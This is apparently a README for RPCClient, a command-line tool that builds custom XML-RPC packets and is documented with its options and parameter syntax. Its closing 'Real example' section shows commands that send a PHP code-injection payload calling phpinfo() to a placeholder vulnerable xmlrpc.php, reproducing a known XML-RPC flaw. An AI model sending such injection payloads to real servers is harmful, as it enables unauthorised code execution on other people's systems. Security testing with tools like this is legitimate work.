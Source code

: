 # Introduction #

The tool is designed to make, in command line, easily XML-RPC packet to a remote server. offering the possibility of being used in scripts for automation.

# Author #

The author of tool is **Daniel Garcia García a.k.a cr0hn**, Security auditor and contributor of www.iniqua.com

In twitter @ggdaniel

# More info #

For Spanish examples and explanations you can visit: http://www.iniqua.com/2010/09/01/tool-xml-rpc-packet-generator/

# Quick questions about XML-RPC #

A few quick questions:

  * Q: What is XML-RPC and is good for?
  * A: Is a way to communicate with remote systems and ask them to do something and send us the results. For example: You could ask the server 'X' that calculates the sum of two very large and we return the result.

  * Q: ¿Who uses it?
  * A: Wordpress or Drupal are two examples.

  * Q: To be used?
  * A: To provide some functionality such as: Consultation statistics, remote access by mobile phone, remote configuration ...

  * Q: What I can assert to me this tool?
  * A: Depends on the use of it. We could serve to perform certain exploits, extracting information from the service or, if you're a developer, test your Web service.

# Funcionality #

This tool allows you to communicate with an XML-RPC service and built packages as custom as you want.

Tool have several options:

### Required options ###
  * -t: Target. This parameters indicate URL where service is running: `http://www.vulnerablesite.com/xmlrpc.php`
  * -M: Method. Remote method or function that you want to call. In the example of the sum of numbers it can be: SumBigNumbers.
  * -P: Parameters. Explained below.

### Global Options ###
  * -h: show help dialog.
  * -v: Set verbose mode on. With this option activated, the program will show package before sending.
  * -u: User name for web server.
  * -p: Password.

### Parameters: How it works. ###

There are several types of parameters, according to specification. It can be found at http://en.wikipedia.org/wiki/XML-RPC.

According to type parameters are expressed in one form or another:

**All but, array and struct types:**

In this case syntax are: type1@value1!type2@value2!...!typeN@valueN. Type and value are a indivisible tuple, united by '@'. Separator between tuples are '!' symbol. For example:

```
-P integer @12!String@string
```

**Array type:**

Array type may have several values inside. These values are in pairs or tuples. Each pair is separated by '#' symbol. Each tuple are splitted by '%' symbol. Example:

```
-P array@type1#value1%type1#value2%...%typeN#valueN
```

**Struct type:**

Similar to array, but with 3 params for tuple. Each tuple must be member name, value and type of value. Syntax is equal to array but the tuple has a length of 3. Example:
```
-P struct@name1#type1#value1%...%nameN#typeN#valueN
```

**Custom type:**

If our type is no above, we can make our own type. Syntax is: custom@OurVal1#OurVal2%...%OurValN#OurValN. Example:

```
-P custom@BigInt#99999999999%NegativeInt#-10000
```

This command will produce following code:

```
<BigInt>
   99999999999
</BigInt>
<NegativeInt>
   -10000
</NegativeInt>
```

# Real example #

If we look a bit on the internet we can find a vulnerability associated with XML-RPC: http://www.securityfocus.com/bid/14088/exploit.

If we want reproduce these code we can write the following command:

**Windows:**

```
RPCClient.exe -t http://www.sitiovulnerable.com/xmlrpc.php -v -M test.method -P "custom@value#’,”)); phpinfo(); exit;/*”
```

**Linux/MAC/UNIX compatible:**

```
Mono RPCClient.exe -t http://www.sitiovulnerable.com/xmlrpc.php -v -M test.method -P ”custom@value#’,”)); phpinfo(); exit;/*”
```

It is very important to stress the importance of the quotes that are at the beginning and end of the parameters, because without them shell interpret the command line of what is hidden and not happen in full as a parameter to rpc-client.
